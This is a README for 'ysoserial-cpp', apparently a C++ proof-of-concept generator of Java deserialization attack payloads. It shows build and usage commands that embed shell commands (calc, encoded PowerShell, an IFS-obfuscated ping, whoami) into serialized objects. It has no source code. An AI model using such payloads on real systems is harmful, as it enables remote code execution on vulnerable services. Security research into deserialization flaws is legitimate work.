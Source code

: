 # ysoserial-cpp


![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           





```
      .                                                                    
  .x88888x.          JennyLab Research!                            ..         
 :8**888888X.  :>               u.    u.      u.    u.    @L                  
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL    
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I   
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I    
         488888   8888L        8888  888R    8888  888R    888E  888I 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888       
  88888    '8888>    "YP'                                        88F             
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```
